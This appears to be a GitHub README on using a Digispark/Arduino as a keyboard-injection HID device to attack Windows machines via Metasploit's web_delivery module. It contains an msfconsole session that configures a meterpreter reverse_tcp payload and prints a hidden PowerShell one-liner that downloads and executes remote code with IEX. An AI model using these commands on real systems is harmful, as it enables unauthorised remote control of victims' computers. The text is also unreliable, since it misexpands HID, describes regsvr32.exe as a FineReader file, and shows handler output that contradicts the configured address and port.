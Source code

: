 ## Downloads 

These software only run on windows machine.

- Download the arduino IDE: https://goo.gl/4YgErk

- Get the drivers: https://goo.gl/r3pn1b

- Additional Board Manager URL: https://goo.gl/874mE2

- DigiKeyboard Source Code: https://goo.gl/1fkWGU

## Arduino HID

Transforming Arduino into `HID` (Human Interface Detect).

**Vídeo Youtube**

[![Everything Is AWESOME](https://i.ytimg.com/an_webp/fGmGBa-4cYQ/mqdefault_6s.webp?du=3000&sqp=CJSX2c8F&rs=AOn4CLDLtzL-sGYoW7W2G-NFuSvpvuTB_Q)](https://youtu.be/fGmGBa-4cYQ "Everything Is AWESOME")

## Exploiting windows

### Web Delivery

Metasploit’s Web Delivery Script is a versatile module that creates a server on the attacking machine which hosts a payload. When the victim connects to the attacking server, the payload will be executed on the victim machine.

This exploit requires a method of executing commands on the victim machine. In particular you must be able to reach the attacking machine from the victim. Remote command execution is a great example of an attack vector where using this module is possible. The web delivery script works on php, python, and powershell based applications.

This exploit becomes a very useful tool when the attacker has some control of the system, but does not possess a full shell. In addition, since the server and payload are both on the attacking machine, the attack proceeds without being written to disk. This helps keep the attacking fingerprint low.

<a href="https://www.offensive-security.com/metasploit-unleashed/web-delivery/">Offensive Security</a>

### Regsvr32

Regsvr32.exe is an EXE file type associated with FineReader OCR, developed by Abbyy USA Software House Inc. for the Windows operating system. The most recent known version of Regsvr32.exe is 1.0.0.0, which was produced for Windows. This EXE file loads a popular 1-star rating and an "Unknown" security rating.

<a href="http://www.solvusoft.com/pt-br/files/erro-remo%C3%A7%C3%A3o-do-v%C3%ADrus/exe/windows/abbyy-usa-software-house-inc/finereader-ocr/regsvr32-exe/">Solvusoft</a>

### Commands Metasploit

The following is the <b>msfconsole</b>

<img src="http://i.imgur.com/rtqbJAH.png"></img>

<pre>
<b>msf auxiliary(gitlab_user_enum) > </b>use exploit/multi/script/web_delivery <br>
<b>msf exploit(web_delivery) > </b>set target 2 <br>
<b>target => </b>2 <br>
<b>msf exploit(web_delivery) > </b>set payload windows/meterpreter/reverse_tcp <br>
<b>payload => </b>windows/meterpreter/reverse_tcp <br>
<b>msf exploit(web_delivery) > </b>set LHOST 192.168.86.6 <br>
<b>LHOST => </b>192.168.86.6 <br>
<b>msf exploit(web_delivery) > </b>set LPORT 4444 <br>
<b>LPORT => </b>4444 <br>
<b>msf exploit(web_delivery) > </b>exploit <br>
<b>[*]</b> Exploit running as background job. <br><br>

<b>[*]</b> Started reverse TCP handler on 192.168.0.100:2333 <br>
<b>[*]</b> Using URL: http://0.0.0.0:9090/WXCOjGGir <br>
<b>msf exploit(web_delivery) </b>
<b>[*]</b> Local IP: http://192.168.0.100:9090/WXCOjGGir <br>
<b>[*]</b> Server started. <br>
<b>[*]</b> Run the following command on the target machine: <br>
powershell.exe -nop -w hidden -c $J=new-object net.webclient;$J.proxy=[Net.WebRequest]::GetSystemWebProxy();$J.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $J.downloadstring('http://192.168.0.100:9090/WXCOjGGir');
</pre>

